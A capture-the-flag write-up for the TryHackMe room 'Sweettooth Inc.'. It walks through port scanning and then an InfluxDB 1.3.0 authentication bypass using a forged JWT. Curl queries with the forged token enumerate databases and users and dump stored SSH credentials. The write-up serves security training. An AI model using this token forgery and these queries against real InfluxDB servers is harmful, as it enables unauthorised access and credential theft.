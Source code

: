 # Sweettooth inc.

![image](https://user-images.githubusercontent.com/5285547/126913536-e9fa3f39-06fa-4a83-aaab-250e553042c8.png)

Link: https://tryhackme.com/room/sweettoothinc

## Desc


## Nmap

```
PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34479/tcp6  status
|   100024  1          40714/udp   status
|   100024  1          46300/tcp   status
|_  100024  1          49237/udp6  status
2222/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

Enumeration gave up some credentials  
http://10.10.219.78:8086/debug/requests

![image](https://user-images.githubusercontent.com/5285547/126914960-41ce25e3-5324-43da-b78b-e4c14de0d037.png)

creds
```
o5yY6yya:127.0.0.1
```

## Directory brute

```
gobuster dir -u http://10.10.219.78:8086/  -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 30 

/status               (Status: 204) [Size: 0]
/query                (Status: 401) [Size: 55]
/ping                 (Status: 204) [Size: 0] 
/write                (Status: 405) [Size: 19]
```
Looking this up online I came across some documentation for the API:  
https://docs.influxdata.com/influxdb/v1.3/tools/api/#write

![image](https://user-images.githubusercontent.com/5285547/126915118-8b5be70b-b0a7-4a72-be93-333aa3915a6a.png)

The same things we see. Let's try some of the commands and explore the API

```
curl http://10.10.219.78:8086/ping -v -X HEAD

*resp
< HTTP/1.1 204 No Content
< Content-Type: application/json
< Request-Id: 0cf9d36b-ed96-11eb-822a-000000000000
< X-Influxdb-Version: 1.3.0

# Influxdb-Version: 1.3.0
```

## JWT

```
GET /query HTTP/1.1
Host: 10.10.219.78:8086
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzaGFyZWRfc2VjcmV0IjoiIn0._FqCTRoFRDIK9srW-ml6Btqp5ItmIfwC7vLyiG8PqzQ
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

response
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Request-Id: c226eacd-ed9c-11eb-9104-000000000000
Www-Authenticate: Basic realm="InfluxDB"
X-Influxdb-Version: 1.3.0
Date: Sun, 25 Jul 2021 23:05:09 GMT
Content-Length: 33
Connection: close

{"error":"signature is invalid"}

```

I found this article that helped me make a payload.  
https://www.komodosec.com/post/when-all-else-fails-find-a-0-day

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E
```

![image](https://user-images.githubusercontent.com/5285547/127043648-fd68da50-ed08-417e-8793-ee5220a4e3c9.png)

```
curl http://10.10.27.198:8086/query -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E"

{"error":"missing required parameter \"q\""}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=mydb&pretty=true"  --data-urlencode 'q=SHOW DATABASES'

{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["creds"],["docker"],["tanks"],["mixer"],["_internal"]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" http://10.10.27.198:8086/query?db=mydb  --data-urlencode 'q=SHOW USERS'      

{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["o5yY6yya",true]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW MEASUREMENTS"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "measurements",
                    "columns": [
                        "name"
                    ],
                    "values": [
                        [
                            "ssh"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SELECT * FROM ssh"                                                  
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "ssh",
                    "columns": [
                        "time",
                        "pw",
                        "user"
                    ],
                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            7788764472,
                            "uzJk6Ry98d8C"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES"            
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "columns": [
                        "key"
                    ],
                    "values": [
                        [
                            "ssh,user=uzJk6Ry98d8C"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

![image](https://user-images.githubusercontent.com/5285547/127047744-f0f9841a-e861-4d71-9b32-192249e74623.png)


```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON _internal"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON mixer"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON tanks" 

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON docker"
```

